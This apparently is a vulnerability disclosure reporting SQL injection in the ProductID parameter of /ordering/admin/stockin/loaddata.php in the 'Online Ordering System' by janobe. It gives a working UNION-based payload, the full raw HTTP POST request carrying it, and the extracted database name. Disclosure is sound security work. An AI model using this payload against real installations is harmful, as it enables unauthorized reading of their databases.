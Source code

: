 # Online Ordering System By janobe has SQL injection vulnerability

Author： k0xx

vendor: https://www.sourcecodester.com/php/12978/online-ordering-system-phpmysqli.html

Vulnerability file: /ordering/admin/stockin/loaddata.php

Vulnerability location: /ordering/admin/stockin/loaddata.php&ProductID //ProductID is Injection point

[+]Payload: ProductID=-2' union select 1,2,database(),4,5,6,7,8,9,10,11,12,13--+ //ProductID is Injection point

Current database name: multistoredb

```sql
POST /ordering/admin/stockin/loaddata.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

ProductID=-2' union select 1,2,database(),4,5,6,7,8,9,10,11,12,13--+
```
![image](https://user-images.githubusercontent.com/54017627/168950699-955bc50c-f0fd-4c4d-b2e0-01dbacdd21d6.png)

![image](https://user-images.githubusercontent.com/54017627/168950677-25a8efe5-87ab-41f9-bad2-6da441f9b989.png)

